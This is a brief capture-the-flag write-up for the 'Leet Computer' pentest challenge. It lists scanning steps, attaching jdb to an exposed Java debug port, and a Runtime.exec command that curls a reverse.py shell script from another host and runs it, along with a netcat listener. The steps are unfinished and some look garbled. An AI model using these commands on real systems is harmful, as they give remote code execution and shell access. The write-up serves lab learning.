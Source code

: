 # Leet Computer: Pentest 19

### One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.

My thought process...

1. ```nmap -Pn 10.40.3.230``` This is the ip that pinged us on the Discovery challenge.
   ```port 22 open ssh```
   ```port 8100 open http```
2. ```whatweb 10.40.3.230/8100``` Running Apache & PHP
3. ```telnet 10.40.3.230 8100``` Allows connection
4. *Install jdb*
5. ```jdb attach 10.40.3.230:8100```
6. ```stop in org.apache.logging.log4j.core.config.ConfigurationFileWatcher.isModified```
7. ```print new java.lang.Runtime().exec("sh -c $@|sh . curl 172.16.72.203:8888/reverse.py  -o /tmp/reverse.py")```
8. *Setup Netcat listener*
   ```nc -l 10.40.3.230```
9. ```print new java.lang.Runtime().exec("python3 /tmp/reverse.py")```
10. ```...```


**NOTE:** I did not finish this challenge before the competition ended. However, one of my teammates was able to solve before the competition ended.

Here is a write-up for this challenge by Łukasz Szymański: [Leet Computer](https://szymanski.ninja/en/ctfwriteups/2021/norzhctf2021/leet-computer/)

Another great write-up to check out by [@snix0](https://github.com/snix0) [https://github.com/snix0/norzhctf-writeup/blob/main/leet_computer/leet_computer.md](https://github.com/snix0/norzhctf-writeup/blob/main/leet_computer/leet_computer.md)

Oop found another write-up I liked by [stackotter.dev](https://stackotter.dev/):[https://stackotter.dev/blog/norzh-ctf-2021-leet-computer-writeup](https://stackotter.dev/blog/norzh-ctf-2021-leet-computer-writeup)
